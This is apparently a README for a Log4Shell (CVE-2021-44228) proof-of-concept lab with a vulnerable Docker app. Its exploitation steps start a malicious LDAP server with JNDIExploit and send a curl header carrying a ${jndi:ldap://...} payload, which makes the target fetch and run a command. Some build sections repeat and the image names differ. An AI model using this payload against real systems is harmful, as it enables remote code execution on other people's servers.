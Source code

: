 # CVE-2021-44228 (Log4shell)

Proof of concept (PoC) for the CVE-2021-44228 vulnerability affecting Apache Log4j2. It allows for remote code execution (RCE) on affected systems. 

# Description

Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1) JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.

For more information:

[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/cve-2021-44228)

# Requirements

- Docker image (log4j2-vuln:v1.1)
- JNDIExploit v1.2
- Curl

# Build the Docker image by yourself

In the directory where the Dockerfile is located, the following command must be run to create the Docker image:

<b>Note:</b> The file "Log4j2Vuln-1.1-SNAPSHOT.jar" must be in the same directory.

`docker build -t log4j2-vuln:v1.1 .`

`docker run -p 8080:8080 --name log4j2-vuln log4j2-vuln:v1.1`

# Credits

<i>Note: This project is inspired by the <a href="https://github.com/christophetd/log4shell-vulnerable-app">christophetd</a> project.</i>


Run it:

`docker run --name tekiumlog4japp -p 8080:8080 d0ck3rt3k1umhub/tekiumlog4japp:v1`

Build the Docker image by yourself:

`docker build . -t tekiumlog4japp`

`docker run -p 8080:8080 --name tekiumlog4japp tekiumlog4japp`

# Exploitation Steps

<i>Note: This project is inspired by the <a href="https://github.com/christophetd/log4shell-vulnerable-app">christophetd</a> project.</i>

JNDIExploit.v1.2.zip is included in the repository as it was apparently removed from Github.

- Use <a href="https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip">JNDIExploit</a> to spin up a malicious LDAP server

`unzip JNDIExploit.v1.2.zip`

`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888`

- Then, trigger the exploit using:

`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZWtpdW1fcHJ1ZWJhLnR4dA==}'`

- Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

![TekiumLog4jApp](https://github.com/erickrr-bd/TekiumLog4jApp/blob/master/screens/response.jpg)

- To confirm that the code execution was successful, notice that the file /tmp/tekium_prueba.txt was created in the container running the vulnerable application:

`docker exec tekiumlog4japp ls /tmp`
